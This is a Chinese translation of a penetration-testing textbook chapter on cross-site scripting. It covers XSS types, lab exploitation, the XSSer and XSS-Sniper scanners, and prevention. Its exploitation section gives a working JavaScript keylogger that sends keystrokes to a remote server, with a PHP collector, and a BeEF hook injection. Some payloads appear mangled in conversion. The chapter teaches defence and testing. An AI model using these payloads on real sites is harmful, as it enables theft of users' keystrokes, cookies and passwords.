








# 第六章：发现和利用跨站脚本（XSS）漏洞

Web 浏览器是一个代码解释器，它接受 HTML 和脚本代码以以吸引人和有用的格式向用户呈现文档，包括文本、图像和视频剪辑。它允许用户与动态元素进行交互，包括搜索字段、超链接、表单、视频和音频控件等等。

应用程序有许多方法来管理与用户的这种动态交互。在当今的 Web 应用程序中，最常见的方式是使用客户端脚本代码。这意味着服务器向客户端发送将由 Web 浏览器执行的代码。

当用户输入用于确定脚本代码行为，并且此输入未经适当验证和清理以防止其包含代码而不是信息时，浏览器将执行注入的代码，您将拥有**跨站脚本**（**XSS**）漏洞。

XSS 是一种代码注入类型，当脚本代码被添加到用户的输入并被 Web 浏览器作为代码而不是数据处理时，就会发生 XSS 漏洞，然后执行它，改变用户看到页面和/或其功能的方式。

# 跨站脚本攻击概述

名称“跨站脚本”可能与其当前定义不直观相关。这是因为该术语最初指的是一种相关但不同的攻击。在 20 世纪 90 年代末和 21 世纪初，可以使用 JavaScript 代码从加载在相邻窗口或框架中的 Web 页面中读取数据。因此，恶意网站可以跨越两者之间的边界，并与与其域无关的完全不相关的 Web 页面上加载的内容进行交互。浏览器开发人员后来修复了这个问题，但攻击名称被继承，用于使 Web 页面加载和执行恶意脚本而不是从相邻框架中读取内容的技术。

简单来说，XSS 攻击允许攻击者在另一个用户的浏览器中执行恶意脚本代码。它可以是 JavaScript、VBScript 或任何其他脚本代码，尽管 JavaScript 是最常用的。恶意脚本通过易受 XSS 攻击的网站传递给客户端。在客户端上，Web 浏览器将脚本视为网站的合法部分并执行它们。当脚本在受害者的浏览器中运行时，它可以强制浏览器执行类似于用户可以执行的操作。脚本还可以使浏览器执行欺诈性交易、窃取 Cookie 或将浏览器重定向到另一个网站。

XSS 攻击通常涉及以下参与者：

+   执行攻击的攻击者

+   易受攻击的 Web 应用程序

+   使用 Web 浏览器的受害者

+   攻击者希望通过受害者重定向浏览器或攻击第三方网站

让我们看一个攻击者执行 XSS 攻击的例子：

1.  攻击者首先使用合法数据测试各个输入字段的 XSS 漏洞。将数据反映回浏览器的输入字段可能是 XSS 漏洞的候选项。以下截图显示了一个示例，其中网站使用`GET`方法传递输入并将其显示回浏览器：


1.  一旦攻击者找到一个参数来注入，该参数上没有进行足够或没有进行输入验证，他们将不得不设计一种方法将包含 JavaScript 的恶意 URL 传递给受害者。攻击者可以使用电子邮件作为传递机制，或者通过网络钓鱼攻击引诱受害者查看电子邮件。

1.  电子邮件将包含一个指向易受攻击的 Web 应用程序的 URL 以及注入的 JavaScript。当受害者点击它时，浏览器解析 URL 并将 JavaScript 发送到网站。以 JavaScript 形式的输入在浏览器中反映出来；考虑以下示例：

```
      <script>alert('Pwned!!')</script>. 
```

完整的 URL 是`http://example.org/hello.php?name=<script>alert('Pwned!!')</script>`。

1.  警报方法通常用于演示目的和测试应用程序是否存在漏洞。在本章后面，我们将探讨攻击者经常使用的其他 JavaScript 方法。

1.  如果 Web 应用程序存在漏洞，将在受害者的浏览器中弹出对话框，如下面的屏幕截图所示：

！[](img/00169.jpeg)

XSS 的主要目标是在受害者的浏览器中执行 JavaScript，但根据网站的设计和目的，有不同的实现方式。以下是 XSS 的三个主要类别：

+   持久性 XSS

+   反射型 XSS

+   基于 DOM 的 XSS

# 持久性 XSS

当注入的数据存储在 Web 服务器或数据库上，并且应用程序在不进行验证的情况下将其返回给应用程序的一个或所有用户时，XSS 漏洞被称为**持久性**或**存储型**。一个目标是感染网站的每个访问者的攻击者将使用持久性 XSS 攻击。这使得攻击者能够大规模地利用网站。

持久性 XSS 漏洞的典型目标如下：

+   基于 Web 的讨论论坛

+   社交网络网站

+   新闻网站

**持久性 XSS**被认为比其他 XSS 漏洞更严重，因为攻击者的恶意脚本会自动注入到受害者的浏览器中。它不需要钓鱼攻击来诱使用户点击链接。攻击者将恶意脚本上传到一个易受攻击的网站，然后作为受害者正常浏览活动的一部分传递给受害者的浏览器。由于 XSS 也可以用于从外部网站加载脚本，这在存储型 XSS 中尤其具有破坏力。注入后，以下代码将查询远程服务器以执行 JavaScript：

```
<script type="text/javascript"  src="img/malicious.js"></script> 
```

下图显示了一个易受持久性 XSS 攻击的 Web 应用程序示例。该应用程序是一个在线论坛，用户可以创建帐户并与其他人互动。应用程序将用户的个人资料与其他详细信息一起存储在数据库中。攻击者确定该应用程序未对评论部分中的数据进行过滤，并利用此机会向该字段添加恶意 JavaScript。此 JavaScript 被存储在 Web 应用程序的数据库中。在正常浏览时，当一个无辜的受害者查看这些评论时，JavaScript 会在受害者的浏览器中执行，然后获取 cookie 并将其传递给攻击者控制的远程服务器：

！[](img/00170.jpeg)

最近，持久性 XSS 已经在互联网上的多个网站上被用来利用用户的网站作为加密货币挖矿的工人或组成浏览器僵尸网络。

# 反射型 XSS

**反射型 XSS**是一种非持久性的攻击形式。恶意脚本是受害者对 Web 应用程序的请求的一部分，然后由应用程序以响应的形式反射回来。这可能看起来很难利用，因为用户不会自愿向服务器发送恶意脚本，但有几种方法可以诱使用户对自己的浏览器发起反射型 XSS 攻击。

反射型 XSS 主要用于有针对性的攻击，黑客部署了包含恶意脚本和 URL 的钓鱼邮件。或者，攻击可能涉及在公共网站上发布一个链接，并引诱用户点击它。结合缩短 URL 的服务，缩短 URL 并隐藏在受害者心中会产生疑问的长而奇怪的脚本，可以用于执行反射型 XSS 攻击，成功率很高。

如下图所示，受害者被欺骗点击一个将脚本传递给应用程序的 URL，然后没有适当验证地反射回来：

！[](img/00171.jpeg)

# 基于 DOM 的 XSS

第三种类型的 XSS 是本地 XSS，直接影响受害者的浏览器。这种攻击不依赖于向服务器发送恶意内容，而是使用浏览器的 API——**文档对象模型**（**DOM**）来操作和呈现网页。在持久型和反射型 XSS 中，脚本被服务器包含在响应中。受害者的浏览器接受它，并将其视为网页的合法部分，在页面加载时执行。在**基于 DOM 的 XSS**中，只有服务器提供的合法脚本会被执行。

越来越多的 HTML 页面是通过在客户端下载 JavaScript 并使用配置参数来调整用户所见内容生成的，而不是像应该显示的那样由服务器发送。每当页面的某个元素需要在不刷新整个页面的情况下更改时，都会使用 JavaScript 来完成。一个典型的例子是一个允许用户更改页面语言或颜色，或调整其中元素大小的网站。

基于 DOM 的 XSS 利用这个合法的客户端代码来执行脚本攻击。基于 DOM 的 XSS 最重要的部分是，合法的脚本使用用户提供的输入来向用户浏览器上显示的网页添加 HTML 内容。

让我们讨论一个基于 DOM 的 XSS 的例子：

1.  假设创建了一个网页，根据 URL 中传递的城市名称显示定制内容，URL 中的城市名称也会显示在用户浏览器上的 HTML 网页中，如下所示：

```
      http://www.cityguide.test/index.html?city=Mumbai
```

1.  当浏览器接收到上述 URL 时，它会发送一个请求到`http://www.cityguide.test`以接收网页。在用户的浏览器上，会下载并运行一个合法的 JavaScript，它会编辑 HTML 页面，在加载的页面顶部添加城市名称作为标题。城市名称是从 URL 中获取的（在这种情况下是`Mumbai`）。因此，城市名称是用户可以控制的参数。

1.  如前所述，基于 DOM 的 XSS 中的恶意脚本不会被发送到服务器。为了实现这一点，使用`#`符号来阻止发送到服务器的符号后面的任何内容。因此，服务器端代码无法访问它，尽管客户端代码可以访问它。

恶意 URL 可能看起来像以下内容：

```
      http://www.cityguide.test/index.html?#city=<script>function</script>
```

1.  当页面加载时，浏览器会调用使用 URL 中的城市名称生成 HTML 内容的合法脚本。在这种情况下，合法脚本遇到恶意脚本，并将脚本写入 HTML 正文而不是城市名称。当网页呈现时，脚本被执行，导致基于 DOM 的 XSS 攻击。

下图说明了基于 DOM 的 XSS：



# 使用 POST 方法的 XSS 攻击

在前面的例子中，你已经看到了使用`GET`方法向受害者传递恶意链接或将载荷存储在服务器上的方法。虽然在现实生活中可能需要更复杂的设置来进行攻击，但使用`POST`请求进行 XSS 攻击也是可能的。

由于`POST`参数是发送到请求的正文中而不是 URL 中，使用这种方法进行 XSS 攻击需要攻击者说服受害者浏览到由攻击者控制的站点。这将是向易受攻击的服务器发送恶意请求的站点，并向用户响应，如下图所示：



其他 XSS 攻击向量

通过`POST`或`GET`方法发送的表单参数并不是唯一用于 XSS 攻击的参数。头部值，如`User-Agent`、`Cookie`、`Host`以及任何其他将信息反映给客户端的头部，甚至通过`OPTIONS`或`TRACE`方法也是易受 XSS 攻击的。作为渗透测试人员，您需要完全测试由服务器处理并反射回用户的请求的所有组件。

# 利用跨站脚本攻击

黑客在利用 XSS 漏洞时非常有创意，结合当前浏览器中 JavaScript 的功能，攻击可能性增加了。结合 JavaScript 的 XSS 可以用于以下类型的攻击：

+   账户劫持

+   修改内容

+   篡改网站

+   从受害者的机器上运行端口扫描

+   记录按键和监控用户活动

+   窃取浏览器信息

+   利用浏览器漏洞

触发 XSS 漏洞的方式有很多种，不仅仅是`<script></script>`标签。请参考 OWASP 的防御备忘单，链接如下：

[`www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

在接下来的几节中，我们将看一些实际的例子。

# 窃取 cookie

XSS 漏洞的一个直接影响是攻击者可以使用脚本代码窃取有效的会话 cookie，并使用它劫持用户的会话，如果 cookie 的参数没有配置好的话。

为了收集会话 cookie，攻击者需要运行一个 Web 服务器，并监听被注入应用程序发送的请求。在最基本的情况下，可以使用从基本的 Python HTTP 服务器到运行接收和存储 ID 甚至使用它们自动执行进一步攻击的正确的 Apache 或 nginx 服务器。为了演示起见，我们将使用基本的 Python 服务器。在 Kali Linux 的终端会话中执行以下命令以在端口`8000`上运行服务器：

```
python -m SimpleHttpServer 8000  
```

一旦服务器运行起来，你将在 OWASP BWA 虚拟机中的 WackoPicko Web 应用程序中利用一个持久性 XSS 漏洞。在 Kali Linux 中浏览到 WackoPicko，在 Guestbook 表单中提交以下代码的评论：

```
<script>document.write('');</script> 
```

注意`127.0.0.1`是 Kali Linux 的本地 IP 地址。它应该被设置为接收 cookie 的服务器的地址：



每次加载 Guestbook 页面时，它都会执行脚本并尝试从外部服务器获取图像。用于获取此类图像的请求在 URL 中包含会话 cookie，这将被记录在接收服务器上，如下面的截图所示：


# 篡改网站

使用 XSS 来篡改网站（改变其视觉外观）并不是一种非常常见的攻击。尽管如此，它是可以做到的，特别是对于持久性漏洞，它可以给一个网站被篡改的公司带来严重的声誉损害，即使服务器的文件没有发生任何改变。

你可以用 JavaScript 以多种方式改变网站的外观。例如，插入 HTML 元素如`div`或`iframe`，替换样式值，改变图像源，以及许多其他技术都可以改变网站的外观。你还可以使用文档的`body`的`innerHTML`属性来替换整个页面的 HTML 代码。

Mutillidae II 有一个 DOM XSS 测试表单，可以帮助我们测试这个漏洞。在菜单中，转到 OWASP 2013 | A3 - 跨站脚本攻击（XSS）| DOM 注入 | HTML5 存储。这个演示应用程序将信息保存到浏览器的 HTML5 存储中，并且它包含许多漏洞。在这里，我们将重点关注当一个元素被添加到存储中时，它会反映出键的事实，如下面的截图所示：


该表单有一定程度的过滤，因为`script`标签不会被反映出来：



经过一些不同注入字符串的试验和错误，你会发现一个带有不存在源（例如，`src`参数）的`img`标签是有效的：

```
Defaced with XSS</h1>'"> 
```

将该代码设置为新元素的键，并点击“添加新元素”将显示如下内容：


如前所述，这样的攻击不会改变 Web 服务器上的文件，只有运行恶意脚本的用户才能注意到这些变化。当利用持久性 XSS 时，篡改可能会影响大量用户，因为攻击者不需要逐个地针对每个受害者，这与反射型和基于 DOM 的 XSS 不同。无论哪种方式，这可能会导致用户将敏感信息提供给攻击者，同时认为他们正在提交给一个合法的网站。

# 键盘记录器

利用 XSS 收集用户敏感信息的另一种方法是将浏览器转变为一个键盘记录器，捕获每个按键并将其发送到攻击者控制的服务器。这些按键可能包含用户在页面中输入的敏感信息，如姓名、地址、密码、秘密问题和答案、信用卡信息等，具体取决于受攻击页面的目的。

我们将使用预先安装在 Kali Linux 中的 Apache Web 服务器，以便将按键存储在文件中，以便我们在利用 XSS 后可以检查受攻击应用程序发送的按键。服务器将有两个文件：`klog.php`和`klog.js`。

这是`klog.php`文件的外观：

```
<?php 
  if(!empty($_GET['k'])) { 
    $file = fopen('keys.txt', 'a'); 
    fwrite($file, $_GET['k']); 
    fclose($file); 
  } 
?> 
```

这是`klog.js`文件的外观：

```
var buffer = []; 
var server = 'http://10.7.7.4/klog.php?k=' 
document.onkeypress = function(e) { 
  buffer.push(e.key); 
} 
window.setInterval(function() { 
  if (buffer.length > 0) { 
    var data = encodeURIComponent(buffer); 
    new Image().src = server + data; 
    buffer = []; 
  } 
}, 200); 
```

在这里，`10.7.7.4`是 Kali Linux 机器的地址，所以受害者将把缓冲区发送到该服务器。此外，根据系统的配置，您可能需要在代码中指定的路径中创建`keys.txt`文件。在这个例子中，它是 Web 根目录(`/var/www/html/`)。此外，添加写权限或将所有权设置为 Apache 的用户，以防止 Web 服务器在尝试更新本地文件时出现权限错误：

```
touch /var/www/html/keys.txt
chown www-data /var/www/html/keys.txt
```

这是键盘记录器的最简单版本。更复杂的版本可能包括以下内容：

+   捕获的时间戳

+   发送信息的用户或机器的标识符

+   将键保存到数据库以便查询、分组和排序

+   控制功能，如启动和停止键盘记录器，触发特定键或组合的操作

在渗透测试期间，应尽量避免从客户端或用户中捕获信息，尽管有时为了正确覆盖某些攻击向量是必要的。如果是这种情况，必须采取适当的安全措施来传输、存储和处理这些信息。如果任何信息被发送到渗透测试人员控制的服务器，通信必须使用 HTTPS、SSH 或其他安全协议进行加密。存储也必须进行加密。建议使用全盘加密，但还需要在其上进行数据库和文件加密。此外，根据约定规则，可能需要安全擦除所有信息。

再次使用 WackoPicko 的留言板，提交以下评论：



这将在每次用户访问留言板页面时加载外部 JavaScript 文件，并捕获他们发出的所有按键。现在您可以在页面中键入任何内容，它将被发送到您的服务器。

如果您想查看到目前为止记录的内容，只需查看 Kali Linux 中的`keys.txt`文件：


您可以看到，由于键在客户端缓冲并定期发送，所以有一些由逗号分隔的不同长度的组，并且非可打印键以名称的形式写入：`ArrowLeft`，`ArrowRight`，`Backspace`，`Home`，`End`等等。

# 利用 BeEF-XSS 控制用户的浏览器

一种被称为**浏览器中间人**（**MITB**）的攻击使用 JavaScript 将用户的浏览器连接到一个**命令和控制**（**C2**）服务器，该服务器使用脚本向浏览器发出指令并从中收集信息。XSS 可以用作载体，使用户在访问易受攻击的应用程序时加载这样的脚本。攻击者可以执行的操作包括：

+   读取按键

+   提取浏览器中保存的密码

+   读取 cookie 和 HTML5 存储

+   启用麦克风和摄像头（可能需要用户交互）

+   利用浏览器漏洞

+   使用浏览器作为进入组织内部网络的枢纽

+   控制浏览器标签和窗口的行为

+   安装恶意浏览器扩展

Kali Linux 包含**浏览器利用框架**（**BeEF**），它是一个设置了托管 C2 中心的 Web 服务器以及在 MITB 攻击中由受害者调用的钩子代码的工具。

接下来，我们将演示攻击者如何使用 XSS 来让客户端（用户的浏览器）调用那个钩子文件，以及如何使用它在这样的浏览器上远程执行操作：

1.  首先，您需要在 Kali Linux 中启动`beef-xss`服务。可以通过应用程序菜单完成：应用程序 | 13 - 社会工程学工具 | beef xss framework，或通过终端执行以下命令：

```
      beef-xss
```


如果服务正确启动，您应该能够浏览到控制面板。默认情况下，BeEF 运行在端口`3000`上，所以浏览到[`http://127.0.0.1:3000/ui/panel`](http://127.0.0.1:3000/ui/panel)并使用默认的用户名和密码`beef`/`beef`登录，如下所示：



1.  攻击者的下一步将是利用持久性 XSS 或诱使用户点击指向恶意站点或易受 XSS 攻击的站点的链接。

现在，作为受害者，转到 Mutillidae（OWASP 2013 | A3 - 跨站脚本（XSS） | 反射（一级） | DNS 查找）并在主机名/IP 文本框中提交以下内容：

```
      <script src="img/hook.js"></script> 
```



1.  再次，`10.7.7.4`是运行 BeEF 的服务器的地址。在这种情况下，是您的 Kali Linux 机器。您可以看到结果似乎是空的，但如果您浏览到 BeEF 控制面板，您将看到您有一个新的浏览器连接。在详细信息选项卡中，您可以看到有关此浏览器的所有信息：


1.  如果您转到当前浏览器的日志选项卡，您将看到钩子记录用户在浏览器中的所有操作，从点击和按键到窗口或标签的更改：



1.  在命令选项卡中，您可以向受害者浏览器发出命令。例如，在下面的截图中，请求了一个 cookie：


# 扫描 XSS 漏洞

有了数百种可能的有效载荷变体，并且是 Web 应用程序中最常见的漏洞之一，XSS 有时很难找到，或者如果找到了，很难生成一个令客户团队投入时间和精力来修复它的令人信服的概念验证利用。此外，具有数百或数千个输入参数的大型应用程序几乎不可能在时间限制的测试中完全覆盖。

因此，您可能需要使用自动化工具来加快生成结果的速度，即使可能会牺牲一定程度的准确性，并增加触发应用程序中某些服务中断的风险。有许多 Web 漏洞扫描器，免费和付费都有，具有各种不同的准确性、稳定性和安全性。现在我们将回顾一些已被证明高效可靠的 XSS 漏洞专用扫描器。

# XSSer

**跨站“脚本者”**（**XSSer**）是一个自动化框架，旨在检测、利用和报告基于 Web 的应用程序中的 XSS 漏洞。它包含在 Kali Linux 中。

XSSer 可以检测持久性、反射性和基于 DOM 的 XSS，扫描指定的 URL 或根据给定的查询在 Google 上搜索潜在目标，通过不同的机制进行身份验证，并执行许多其他任务。

让我们尝试使用 BodgeIt 的搜索请求作为目标进行简单的扫描。为此，请在 Kali Linux 的终端中发出以下命令：

```
xsser -u http://10.7.7.5/bodgeit/search.jsp -g ?q=  
```

在这里，XSSer 在由`-u`参数指示的 URL 上运行，并使用`GET`方法和`q`（`-g ?q=`）参数进行扫描。这意味着扫描器将其有效负载附加到`-g`之后指定的字符串，并将其结果附加到 URL 上，因为它使用`GET`。运行命令后，您将看到结果表明测试的 URL 易受 XSS 攻击：

！[](img/00187.jpeg)

还可以使用以下命令使用 GUI：

```
xsser -gtk
```

这是 GUI 的外观：

！[](img/00188.jpeg)

# XSS-Sniper

XSS-Sniper 不包含在 Kali Linux 中，但绝对值得一试。这是 Gianluca Brindisi 的一个开源工具，可以搜索 XSS 漏洞，包括特定 URL 中的基于 DOM 的 XSS，或者可以爬行整个站点。虽然不像 XSSer 那样功能丰富，但在 XSSer 不可用或验证结果时，它是一个不错的选择。

XSS-Sniper 可以从其 GitHub 存储库下载：

```
git clone https://github.com/gbrindisi/xsssniper.git
```

要对`GET`请求进行基本扫描，只需使用`-u`参数后跟完整的 URL，包括测试值：

```
python xsssniper.py -u http://10.7.7.5/bodgeit/search.jsp?q=test
```

！[](img/00189.jpeg)

Burp Suite Professional 和 OWASP ZAP 包括可以准确检测到许多 XSS 实例的漏洞扫描功能。还可以使用 W3af、Skipfish 和 Wapiti 等扫描器。

# 预防和减轻跨站脚本攻击

与任何其他注入漏洞一样，适当的输入验证是防止 XSS 的第一道防线。此外，如果可能的话，避免使用用户输入作为输出信息。清理和编码是防止 XSS 的关键方面。

**清理**意味着从字符串中删除不可接受的字符。当输入字符串中不应存在特殊字符时，这很有用。

编码将特殊字符转换为其 HTML 代码表示。例如，`&`转换为`&amp;`或`<`转换为`&lt;`。某些类型的应用程序可能需要允许在输入字符串中使用特殊字符。对于这些应用程序，清理是不可选的。因此，它们应该在将输出数据插入页面和存储在数据库中之前对其进行编码。

验证、清理和编码过程必须在客户端和服务器端都进行，以防止所有类型的 XSS 和其他代码注入。

有关预防跨站脚本攻击的更多信息，请访问以下网址：

+   [`www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

+   [`docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting`](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting)

+   [`www.acunetix.com/blog/articles/preventing-xss-attacks/`](https://www.acunetix.com/blog/articles/preventing-xss-attacks/)

# 摘要

在本章中，我们详细讨论了 XSS 漏洞。我们首先看了漏洞的起源以及它在多年来的演变过程中如何发展。然后，您了解了不同形式的 XSS 及其攻击潜力。我们还分析了攻击者如何利用不同的 JavaScript 功能在受害者的浏览器中执行各种操作，例如窃取会话 cookie、记录按键、篡改网站和远程控制 Web 浏览器。Kali Linux 有几个工具可以测试和利用 XSS 漏洞。我们使用 XSSer 和 XSS-Sniper 来检测 Web 应用程序中的漏洞。在最后一节中，我们回顾了应采取的一般措施，以防止或修复 Web 应用程序中的 XSS 漏洞。

在下一章中，我们将描述跨站请求伪造，并展示如何利用它来欺骗已验证用户执行不希望的操作，同时还提供了如何预防此类缺陷的建议。
